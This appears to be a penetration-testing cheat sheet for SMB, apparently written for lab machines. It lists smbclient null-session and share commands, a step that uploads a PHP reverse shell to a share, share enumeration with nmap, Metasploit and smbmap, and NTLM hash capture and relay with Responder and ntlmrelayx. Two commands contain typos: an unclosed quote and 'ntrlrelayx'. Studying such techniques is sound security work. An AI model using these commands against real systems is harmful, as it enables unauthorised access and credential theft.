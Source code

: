 ```yaml
---
description: Server Message Block
icon: database
---
```


# SMB

<details>

<summary><mark style="color:orange;"><strong><code>smbclient</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">`Without Credentials`</mark>

{% code title="List Resource list" %}
```sh
smbclient -L <IP>
```
{% endcode %}

{% code title="List Null session" %}
```sh
smbclient -N <IP>
```
{% endcode %}

{% code title="List User Share" %}
```sh
smbclient //IP/<SHARE> -U <USER>
```
{% endcode %}

{% code title="Connect to share" %}
```sh
smbclient -N \\\\IP\Share
```
{% endcode %}

{% code title="Without Credentials" %}
```sh
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% code title="Resources list + Null session" %}
```sh
smbclient -L \\10.10.10.123 -N
```
{% endcode %}

{% code title="Upload PHP reverse shell" overflow="wrap" %}
```sh
smbclient -N //10.10.10.123/Development -c 'put cmd.php tokyo.php
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:red;">`Download a File`</mark>

{% code title="Type this sequence" overflow="wrap" lineNumbers="true" %}
```sh
recurse
prompt
mget *
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Enumeration</strong></mark></summary>

{% code title="Nmap Scripts" %}
```sh
nmap --script smb-enum-shares.nse -p445 10.10.10.123
```
{% endcode %}

{% code title="Metasploit Module" %}
```sh
use auxiliary/scanner/smb/smb_enumshares
```
{% endcode %}

{% hint style="info" %}
#### <mark style="color:orange;">**`smbmap`**</mark>

{% code title="Connect to host" %}
```sh
smbmap -H <IP>
```
{% endcode %}

{% code title="Connect with credentials" overflow="wrap" %}
```sh
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'
```
{% endcode %}

{% code title="List Share" %}
```sh
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>SAMBA</code></strong></mark></summary>

{% code title="Download file" overflow="wrap" %}
```sh
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>NTLM</code></strong></mark> <mark style="color:purple;"><strong>Relay Attacks</strong></mark></summary>

{% hint style="danger" %}


{% code title="Capture the Hash" %}
```bash
responder -I eth0 -dwv
```
{% endcode %}

{% code title="Relay the hash" %}
```bash
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>
```
{% endcode %}
{% endhint %}

</details>

